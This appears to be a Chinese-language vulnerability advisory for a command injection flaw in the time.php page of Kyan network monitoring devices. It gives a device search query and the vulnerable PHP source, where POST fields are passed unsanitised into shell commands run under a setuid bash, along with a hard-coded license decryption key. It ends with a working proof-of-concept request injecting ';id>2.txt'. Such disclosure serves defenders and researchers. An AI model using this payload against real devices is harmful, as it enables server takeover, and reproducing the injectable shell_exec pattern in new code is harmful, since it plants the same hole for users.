

Kyan 网络监控设备 time.php 远程命令执行漏洞¶
漏洞描述¶
Kyan 网络监控设备 time.php 可在身份验证的情况下执行任意命令, 配合账号密码泄露漏洞，可以获取服务器权限，存在远程命令执行漏洞
漏洞影响¶
Kyan
网络测绘¶
app="Kyan设计"
漏洞复现¶
登录页面如下

存在漏洞的文件: /time.php
<?php
require_once 'functions.php';
require_once 'international.php';
session_start();
auth_check();
//showHeader('Route', array('table.css'));
if($_SERVER['REQUEST_METHOD'] == 'POST')
{
if(!user_is_admin())
{
showErrMessage("permission denied");
exit;
}
$timesynctype = $_POST["timesynctype"];
if($timesynctype!="client")
{
$output = shell_exec("/bin/bashsuid -p -c \"/usr/sbin/ntpdate " .$timesynctype. "\"");
showMessage($output);
shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
}else
{
$ctime = $_POST["ctime"];
shell_exec("/bin/bashsuid -p -c \"date " .$ctime. "\"");
shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
}
}
echo "<html xmlns=\"http://www.w3.org/1999/xhtml\">\n";
echo " <head>\n";
echo " <meta http-equiv=\"Content-Type\" content=\"text/html; charset=UTF-8\" />\n";
echo " <meta http-equiv=\"Content-Style-Type\" content=\"text/css\" />\n";
echo " <meta http-equiv=\"Content-Script-Type\" content=\"text/javascript\" />\n";
echo " <link type=\"text/css\" rel=\"stylesheet\" href=\"./templates/clean.css\" title=\"PSI_Template\"/>\n";
echo " <title>time</title>\n";
echo "<style type=\"text/css\">";
echo "th, td, h3 {";
echo "font-size: 12px;";
echo "}";
echo "</style>";
echo " </head>\n";
//print_html_begin("time");
?>
<script language="javascript" type="text/javascript">
//因程序执行耗费时间,所以时间并不十分准确,误差大约在2000毫秒以下
var xmlHttp = false;
//获取服务器时间
try {
xmlHttp = new ActiveXObject("Msxml2.XMLHTTP");
} catch (e) {
try {
xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
} catch (e2) {
xmlHttp = false;
}
}
if (!xmlHttp && typeof XMLHttpRequest != 'undefined') {
xmlHttp = new XMLHttpRequest();
}
xmlHttp.open("GET", "null.txt", false);
xmlHttp.setRequestHeader("Range", "bytes=-1");
xmlHttp.send(null);
severtime=new Date(xmlHttp.getResponseHeader("Date"));
//获取服务器日期
var year=severtime.getFullYear();
var month=severtime.getMonth()+1;
var date=severtime.getDate();
//获取服务器时间
var hour=severtime.getHours();
var minu=severtime.getMinutes();
var seco=severtime.getSeconds();
//获取客户端时间
localtime=new Date();
//取得时间差
var jtime=Math.abs(localtime.getTime()-severtime.getTime());
var jdate=jtime/(24*60*60*1000);
var jhour=jtime%(24*60*60*1000)/(60*60*1000);
var jminu=jtime%(24*60*60*1000)%(60*60*1000)/(60*1000);
var jsecond=jtime%(24*60*60*1000)%(60*60*1000)%(60*1000)/1000;
//格式化输出客户端时间
function getClientTime(){
localtime=new Date();
var cyear=localtime.getFullYear();
var cmonth=localtime.getMonth()+1;
var cdate=localtime.getDate();
var chour=localtime.getHours();
var cminu=localtime.getMinutes();
var cseco=localtime.getSeconds();
ccyear=addZero(cyear);
ccmonth=addZero(cmonth);
ccdate=addZero(cdate);
cchour=addZero(chour);
ccminu=addZero(cminu);
ccseco=addZero(cseco);
document.getElementById("clienttime").innerHTML=ccyear+"-"+ccmonth+"-"+ccdate+" "+cchour+":"+ccminu+":"+ccseco;
document.getElementById("ctime").value= ccmonth+""+ccdate+""+cchour+""+ccminu+""+ccyear+"."+ccseco;
}
//格式化输出服务器时间
function getSeverTime(){
seco++;
if(seco==60){
minu+=1;
seco=0;
}
if(minu==60){
hour+=1;
minu=0;
}
if(hour==24){
date+=1;
hour=0;
}
//日期处理
if(month==1||month==3||month==5||month==7
||month==8||month==10||month==12)
{
if(date==32)
{
date=1;
month+=1;
}
}else if(month==4||month==6||month==9||month==11){
if(date==31){
date=1;
month+=1;
}
}else if(month==2){
if(year%4==0&&year%100!=0){//闰年处理
if(date==29){
date=1;
month+=1;
}
}else{
if(date==28){
date=1;
month+=1;
}
}
}
if(month==13){
year+=1;
month=1;
}
sseco=addZero(seco);
sminu=addZero(minu);
shour=addZero(hour);
sdate=addZero(date);
smonth=addZero(month);
syear=year;
document.getElementById("servertime").innerHTML=syear+"-"+smonth+"-"+sdate+" "+shour+":"+sminu+":"+sseco;
setTimeout("getSeverTime()",1000);
setTimeout("getClientTime()",100);
}
function addZero(num) {
num=Math.floor(num);
return ((num <= 9) ? ("0" + num) : num);
}
function updatetime()
{
return true;
}
</script>
<body onLoad="getSeverTime();">
<table style='width:500px' border='0' align='center' cellpadding='3' cellspacing='1'>
<th colspan="2"><?php echo lang_get('Timer'); ?></th>
<tr ><td align='right' width=50%><?php echo lang_get('System time')?></td><td align='left'><div id="servertime"></div></td></tr>
<tr ><td align='right'><?php echo lang_get('Client time')?></td><td align='left'><div id="clienttime"></div></td></tr>
<tr ><td colspan="2" align="center">
<form name="Form1" method="post" action=<?php echo $_SERVER['PHP_SELF']?>>
<input type="hidden" name="cdate" id="cdate" value=""/>
<input type="hidden" name="ctime" id="ctime" value=""/>
<?php echo lang_get('Sync Source');?>:
<select name="timesynctype" id="timesynctype" >
<option value="time.windows.com" selected="selected">time.windows.com</option>
<option value="time.nist.gov">time.nist.gov</option>
<?php
/*$system_lic_file = '/mnt/licenses/system/system.dat';
$bsynctoclient=false;
if(file_exists($system_lic_file))
{
$output = shell_exec("/bin/bashsuid -p -c \"openssl bf-cbc -K 000102030405060708090A0B0C0D0E0F -iv 0102030405060708 -d -in /mnt/licenses/system/system.dat |grep -v \"^;\"|grep Expire\"");
if($output == "")
{
$bsynctoclient = true;
}else
{
$bsynctoclient = false;
}
}
if($bsynctoclient)
{*/
echo "<option value=\"client\" >".lang_get('PC Client')."</option>";
/* } */
?>
</select>
<input type="submit" name="update" id="update" value="<?php echo lang_get('Update Now');?>" />
</form>
</td></tr>
</table>
</body>
</html>
<?php
//print_html_end();
?>
其中需要注意的地方
if($_SERVER['REQUEST_METHOD'] == 'POST')
{
if(!user_is_admin())
{
showErrMessage("permission denied");
exit;
}
$timesynctype = $_POST["timesynctype"];
if($timesynctype!="client")
{
$output = shell_exec("/bin/bashsuid -p -c \"/usr/sbin/ntpdate " .$timesynctype. "\"");
showMessage($output);
shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
}else
{
$ctime = $_POST["ctime"];
shell_exec("/bin/bashsuid -p -c \"date " .$ctime. "\"");
shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
}
}
参数均可控，构造POC
POST /time.php
timesynctype=;id>2.txt